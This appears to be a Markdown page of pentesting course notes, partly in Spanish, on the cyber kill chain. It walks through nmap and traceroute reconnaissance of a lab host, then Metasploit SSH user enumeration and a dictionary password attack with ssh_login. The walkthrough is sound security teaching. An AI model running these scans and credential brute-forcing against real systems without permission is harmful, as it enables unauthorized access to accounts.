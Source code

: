 ```yaml
---
title: S04 | C03 | T03 | KILL CHAIN
date: 2024-10-03 00:00:00 -05:00
categories: [reconnaisance, kill chain, pentesting]
tags: [SSH, Commands]  # TAG names should always be lowercase
---
```

# KILL CHAIN ​​PARTS

The "Kill Chain" is a concept used in cybersecurity and military **strategy that outlines the phases of an attack and how they can be disrupted**. It consists of several parts, each representing a stage in the attack process. Here are the main phases:
1. Reconnaissance
2. Weaponization
3. Delivery
4. Exploitation
5. Installation
6. Command & Control
7. Actions on Object (Post-exploitation)

---

## 1. **Reconnaissance (Reconocimiento)**
- Gathering information about the target.
- Identifying vulnerabilities and entry points.

    - **IP : 10.0.2.4**
    ![figura1](/assets/images/ip_sudo_sv_p.png)



    1. The command  **`nmap`** perform a ping scan on the subnet **`10.0.2.4/24`**. It identifies which hosts are up without scanning ports.
        ```bash
        sudo nmap -sn 10.0.2.4/24
        ```    
        ![figura1](/assets/images/sudo_nmap_sn.png)

    2. Scans the host `10.0.2.4` for specific ports (21, 22, 80, and 443) to check which services are running on those ports, such as FTP, SSH, HTTP, and HTTPS.
        ```bash
        sudo nmap -p 21,22,80,443 10.0.2.4
        ```    
        ![figura1](/assets/images/sudo_nmap_p.png)

    3. This command traces the route packets take to reach the host `10.0.2.4`, showing each hop along the way, even with a firewall active. It helps identify network paths and potential issues.
        ```bash
        sudo traceroute 10.0.2.4
        ```    
        ![figura1](/assets/images/sudo_traceroute.png)

    4. Similar to the previous command, but it uses TCP (with `-T`) and specifies port 22 (SSH). This can be useful if the target host blocks ICMP packets used in standard traceroutes.
        ```bash
        sudo traceroute -T -p 22 10.0.2.4
        ```    
        ![figura1](/assets/images/sudo_traceroute_T_p.png)

    5. This command runs `nmap` with the Firewalk script, which is designed for advanced network path analysis, along with a traceroute to `10.0.2.4`. It helps in discovering firewall rules.
        ```bash
        sudo nmap --script=firewalk --traceroute 10.0.2.4
        ```    
        ![figura1](/assets/images/sudo_nmpa_script.png)

    6. This command scans `10.0.2.4` specifically on port 22 (SSH) and attempts to determine the version of the service running on that port.
        ```bash
        sudo nmap -sV -p 22 10.0.2.4
        ```    
        ![figura1](/assets/images/sudo_sv_p.png)

    7. This uses `netcat` (nc) to attempt a connection to `10.0.2.4` on port 22. The `-n` flag prevents DNS resolution, and `-v` enables verbose output, which helps in debugging the connection.
        ```bash
        nc -nv 10.0.2.4 22
        ```    
        ![figura1](/assets/images/nc_nv.png)

    8. This command attempts to SSH into the host `10.0.2.` using the username `vagrant`. It establishes a secure shell session if the credentials are correct.
        ```bash
        ssh vagrant@10.0.2.4
        ```
        ![figura1](/assets/images/ssh_vagrant.png)

## 4. **Exploitation (Explotación)**
- Executing malicious code on the target's system.
- Exploiting vulnerabilities to gain access.

    1. This command starts the Metasploit Framework console in quiet mode (`-q`), which suppresses the startup messages. Metasploit is a powerful tool for penetration testing.
        
        ```bash
        msfconsole -q
        ```    
    2. Once inside the Metasploit console, this command searches for modules related to SSH. It can help identify exploits or auxiliary modules that target SSH services.

        ```bash
        search ssh
        ```    

        ![figura1](/assets/images/msfconsole_q.png)

## **TASKS**
### **1. Diccionarios (usuarios, passwords)**
- Se crea archivos de texto para usuarios (Users.txt) y contraseñas (Passwords.txt) en Kali GNU/Linux
![figura1](/assets/images/textos.png)

### **2. Averiguar cuál de las tools de metasploit (relacionados con ssh) sirve para encontrar todos los usuarios configurados en el servicio SSH del target.**
1. Open your terminal and start the Metasploit console:
    ```bash
    msfconsole -q
    ```    
2. Once Metasploit is running, search for the ssh_enumusers module:
    ```bash
    search ssh_enumusers
    ```    
3. Select the ssh_enumusers module from the search results:
    ```bash
    use auxiliary/scanner/ssh/ssh_enumusers
    ```  
4.  Before executing the module, you can review its details and available options by using:
    ```bash
        info
    ```     
    ![figura1](/assets/images/ssh_enumusers.png)

4.  To see the configurable options for the module, use:
    ```bash
        options
    ```     
    ![figura1](/assets/images/ssh_enu_options.png)

5. Set the target host and any other necessary options. For example:
    ```bash
        set RHOSTS <target_ip>
        set USER_FILE <path_to_user_list>
    ```   
    ```bash
        set RHOSTS 10.0.2.4
        set USER_FILE /home/user/Desktop/Users.txt
    ```   

6.  Execute the module to start enumerating users:
    ```bash
        run
    ```   
    ![figura1](/assets/images/ssh_enu_comands.png)

### **3. Averiguar cuál de las tools me permite encontrar los passwords de esos usuarios.**

1. **Load the module:**
   ```bash
   use auxiliary/scanner/ssh/ssh_login
   ```

3. **Set the target:**
   ```bash
   set RHOSTS <Target_IP>
   ```   
   ```bash
   set RHOSTS 10.0.2.4
   ```

4. **Set the dictionary files:**
   ```bash
   set USER_FILE /path/to/user_file.txt
   set PASSWORD_FILE /path/to/password_file.txt
   ```
    ```bash
    set RHOSTS 10.0.2.4
    set USER_FILE /home/user/Desktop/Users.txt
    set PASSWORD_FILE /home/user/Desktop/Passwords.txt
    ```   
5. **Run the scan:**
   ```bash
   run
   ```

![figura1](/assets/images/ssh_login.png)
![figura1](/assets/images/ssh_login_2_.png)




